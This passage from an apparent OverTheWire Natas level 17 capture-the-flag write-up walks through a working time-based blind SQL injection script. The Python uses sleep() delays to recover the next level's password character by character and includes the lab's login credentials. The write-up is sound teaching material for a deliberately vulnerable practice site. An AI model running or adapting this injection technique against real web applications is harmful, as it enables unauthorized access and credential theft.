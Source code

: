 For me, as I was having some problems with getting the correct guessing character set, so I set the `sleep` time to be 5 seconds, to be extra safe. The guessing part I set the `sleep` time to be 1 second, as setting it too high will waste too much of my time. 

The code for all of the aforementioned operations: 

```python
import string 
import requests

target = 'http://natas17.natas.labs.overthewire.org'
creds = ('natas17', 'XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd')

alphanumeric = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
charset = ""
password = ""

# Guessing the charset, make the sleep time as long as possible to account for 
# some disruptions in the network
for char in alphanumeric:
    payload = 'natas18" and password like binary "%' + char + '%"' + ' and sleep(5);-- '
    r = requests.get(target, auth = creds, params = {"username": payload})
    
    print("Char: " + char + " - Time elapsed: " + str(r.elapsed.total_seconds()))
    if r.elapsed.total_seconds() > 3:
        charset += char 

print("The charset used is: " + charset)

# Guessing character by character, but this time we choose the character that
# results in the maximum amount of time. This is because during testing,
# some network issues happen and the code get the wrong results.
print("--------- Guessing char by char ---------")
for i in range(32):
    max_time = 0
    max_char = 'g'
    time = []
    for char in charset:
        guess = password + char
        payload = 'natas18" and password like binary "' + guess + '%"' + ' and sleep(1);-- '
        r = requests.get(target, auth = creds, params={"username": payload})
        time.append(r.elapsed.total_seconds())
        if r.elapsed.total_seconds() > max_time:
            max_char = char
            max_time = r.elapsed.total_seconds()
    
    password += max_char
    print("Iteration " + str(i + 1) + ": " + password.ljust(32, "="))
    print("Max time elapsed: ", max_time)
    print("Min time elapsed: ", min(time))
```

In the guessing character by character part, the script will print both the maximum and minimum response time. I find this to be very helpful, as when the guesses are all incorrect, or there are problems with the network, the maximum and minimum time are relatively close to each other. The `sleep` time might differ on another PC on a completely different network, so tune the numbers accordingly.
